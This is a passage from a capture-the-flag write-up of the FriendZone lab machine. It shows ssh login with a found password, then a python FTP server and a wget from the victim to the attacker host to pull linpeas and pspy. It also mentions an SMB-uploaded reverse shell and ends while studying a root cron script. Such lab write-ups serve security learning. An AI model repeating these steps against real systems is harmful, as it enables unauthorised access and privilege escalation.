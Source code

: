Lets try `friend:Agpyu12!0.213$` all over, which immediately works for ssh.

## friend to root

Copying files here has one caveat, where the wget command has `ftp` prepended to it (i.e. a grab for http://10.10.10.10/a.txt would become ftp://10.10.10.10/a.txt). Instead of going against the grain, just spin up a python ftp server to copy over linpeas and pspy.
```
# Attacking Box
python3 -m pyftpdlib -p21 -w                                                                                                         1 ⨯
/home/kali/.local/lib/python3.9/site-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2022-01-03 09:10:15] concurrency model: async
[I 2022-01-03 09:10:15] masquerade (NAT) address: None
[I 2022-01-03 09:10:15] passive ports: None
[I 2022-01-03 09:10:15] >>> starting FTP server on 0.0.0.0:21, pid=197979 <<<
[I 2022-01-03 09:10:29] 10.10.10.123:34028-[] FTP session opened (connect)

# Victim
friend@FriendZone:/tmp$ wget 10.10.14.24:21/a.zip
--2022-01-03 16:17:07--  http://10.10.14.24:21/a.zip
Connecting to 10.10.14.24:21... connected.
HTTP request sent, awaiting response... 200 No headers, assuming HTTP/0.9
Length: unspecified
Saving to: ‘a.zip’
```
Despite the workaround, this was moving at about 200 kb/s so just used smb to transfer instead (same method we used to upload the revshell).

### pspy

Crontab action coming from a server admin folder
```
2022/01/03 16:25:36 CMD: UID=0    PID=10     | 
2022/01/03 16:25:36 CMD: UID=0    PID=1      | /sbin/init splash 
2022/01/03 16:26:01 CMD: UID=0    PID=3556   | /usr/bin/python /opt/server_admin/reporter.py 
2022/01/03 16:26:01 CMD: UID=0    PID=3555   | /bin/sh -c /opt/server_admin/reporter.py 
2022/01/03 16:26:01 CMD: UID=0    PID=3554   | /usr/sbin/CRON -f 
```

Investigation of the reporter.py script shows a mail server written in python.
```python
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```
